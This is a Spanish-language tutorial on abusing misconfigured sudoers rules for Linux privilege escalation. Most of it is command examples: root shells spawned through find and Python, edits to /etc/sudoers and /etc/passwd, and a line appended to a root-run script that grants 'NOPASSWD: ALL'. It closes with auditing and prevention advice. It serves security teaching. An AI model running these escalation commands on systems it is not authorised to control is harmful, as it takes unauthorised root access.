 
# Abuso de Privilegios a Nivel de Sudoers

## ¿Qué es Sudo?

Sudo (SuperUser DO) es un programa diseñado para sistemas Unix/Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).

## Configuración de Sudo

Los privilegios de sudo se configuran en el archivo `/etc/sudoers` o en archivos dentro del directorio `/etc/sudoers.d/`. Esta configuración determina quién puede usar sudo y qué comandos pueden ejecutar.

### Sintaxis Básica del Archivo Sudoers

```bash
usuario ALL=(ALL) NOPASSWD: comando
```

Donde:
- `usuario`: El nombre del usuario que tiene permisos.
- `ALL`: El host en el que se aplica la regla (normalmente `ALL`).
- `(ALL)`: El usuario al que se cambiará (normalmente `ALL` para root).
- `NOPASSWD:`: Indica que no se requiere contraseña para ejecutar el comando.
- `comando`: El comando específico que el usuario puede ejecutar.

```bash
usuario ALL=(root) NOPASSWD: /usr/bin/apt-get
```

## Posibles Vectores de Abuso


### 1. Ejecución de Comandos Específicos

**Ejemplo:** Supongamos que un usuario tiene permiso para ejecutar un comando específico como root:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/find
```

**Abuso:**
```bash
# El usuario puede usar 'find' para ejecutar comandos arbitrarios
sudo find / -exec /bin/bash \;
```

Este comando inicia una shell con privilegios de root.

### 2. Permisos de Edición de Archivos Sensibles

**Ejemplo:** El usuario puede editar cualquier archivo:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/vim
```

**Abuso:**
```bash
# Editar el archivo sudoers para otorgarse más privilegios
sudo vim /etc/sudoers

# O añadir un usuario al archivo passwd
sudo vim /etc/passwd
```

### 3. Wildcards en la Configuración

**Ejemplo:** Configuración con wildcards:

```
usuario ALL=(ALL) NOPASSWD: /bin/chown * /home/usuario/archivo
```

**Abuso:**
```bash
# Usar el wildcard para ejecutar comandos adicionales
sudo chown root --reference=/etc/passwd /home/usuario/archivo
```

### 4. Comandos que Pueden Lanzar Shells

**Ejemplo:** Usuario con permiso para usar programas que pueden lanzar shells:

```
usuario ALL=(ALL) NOPASSWD: /usr/bin/python
```

**Abuso:**
```bash
# Lanzar una shell con privilegios de root mediante Python
sudo python -c 'import os; os.system("/bin/bash")'
```

### 5. Permisos de Sudo sin Contraseña

**Ejemplo:** Configuración NOPASSWD para todos los comandos:

```
usuario ALL=(ALL) NOPASSWD: ALL
```

**Abuso:**
```bash
# El usuario puede ejecutar cualquier comando como root sin contraseña
sudo su -
```

## Cómo Detectar y Prevenir estos Abusos

1. **Revisión Regular**: Auditar regularmente el archivo sudoers.
2. **Principio de Privilegio Mínimo**: Otorgar solo los privilegios necesarios.
3. **Evitar Wildcards**: No usar comodines en la configuración de sudo.
4. **Monitoreo**: Implementar sistemas de monitoreo para detectar abusos.
5. **Usar sudoreplay**: Para auditar las sesiones de sudo.

## Comandos Útiles para Verificar Configuración

```bash
# Ver tus permisos sudo
sudo -l

# Verificar la sintaxis del archivo sudoers
visudo -c

# Ver quién tiene privilegios sudo en el sistema
grep -r "ALL=(ALL)" /etc/sudoers /etc/sudoers.d/
```

## Ejemplo Práctico de Escalada de Privilegios

Supongamos que tienes permisos para ejecutar un script como root:

```
usuario ALL=(ALL) NOPASSWD: /scripts/backup.sh
```

Si puedes editar este script, podrías:

```bash
# Añadir al final del script
echo 'echo "usuario ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' >> /scripts/backup.sh

# Ejecutar el script con sudo
sudo /scripts/backup.sh

# Ahora tienes acceso completo a sudo
sudo su
```

Recuerda: La seguridad del sistema depende de una configuración adecuada de sudo.

---
[[Indice]]